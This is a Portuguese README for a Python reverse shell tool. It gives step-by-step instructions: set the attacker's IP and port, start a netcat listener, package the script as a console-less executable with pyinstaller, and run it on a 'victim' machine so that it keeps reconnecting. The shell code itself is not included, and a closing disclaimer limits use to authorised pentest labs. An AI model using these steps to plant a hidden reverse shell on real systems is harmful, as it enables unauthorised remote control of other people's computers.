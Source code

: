 # Python Reverse Shell

## Visão Geral
Este script em Python cria uma conexão de shell reverso para uma máquina remota controlada pelo invasor. Ele tenta continuamente estabelecer uma conexão com o IP do atacante e permite a execução remota de comandos.

## Funcionalidades
- **Conexão Persistente**: O script continuará tentando conectar-se à máquina do atacante caso a conexão falhe.
- **Execução Remota de Comandos**: Após estabelecida a conexão, o invasor pode executar comandos remotamente.
- **Navegação de Diretórios**: Suporta comandos básicos de navegação como `cd`, `ls`, `pwd`.
- **Tratamento de Erros**: O script inclui mecanismos para lidar com falhas de conexão e erros na execução de comandos.

## Uso
### 1. Modifique o Script
Edite o script e substitua o IP e a porta pelo IP da máquina do atacante:
```python
IP = "192.x.x.x"  # Altere para o IP do Kali Linux
PORT = 443          # Certifique-se de que essa porta está aberta no Kali
```

### 2. Execute um Listener no Kali
No Kali Linux, execute um listener na porta especificada (443 neste exemplo):
```bash
nc -lvnp 443
```

### 3. Gerar um Executável
Instale a biblioteca `pyinstaller`:
```bash
pip install pyinstaller
```
Gere um executável usando o `pyinstaller`:
```bash
pyinstaller -F --clean -w shell.py
```
Isso criará um arquivo executável sem uma janela de console.

### 4. Execute o Shell
Execute o executável gerado na máquina-alvo. O shell tentará conectar-se à sua máquina Kali no IP e na porta especificados.

### 5. Execução de Comandos
Após conectado, você verá algo como:
```bash
listening on [any] 443 ...
connect to [192.x.x.x] from (UNKNOWN) [192.x.x.x] 30908
Welcome to your victim's machine!
─$
```
Para sair do shell, digite `/exit`.

### 6. Testar a Conexão Localmente
Antes de implantar, teste a conexão executando `connection_check.py`:
```bash
python .\connection_check.py
```
Este script ajuda a verificar se a conexão pode ser estabelecida.

## ⚠ Aviso Legal
Este script deve ser usado **somente** em ambientes controlados, como laboratórios de teste de penetração, com permissão explícita. O uso indevido desta ferramenta para acesso não autorizado a sistemas é **ilegal** e pode resultar em graves consequências legais. O risco é de sua responsabilidade.


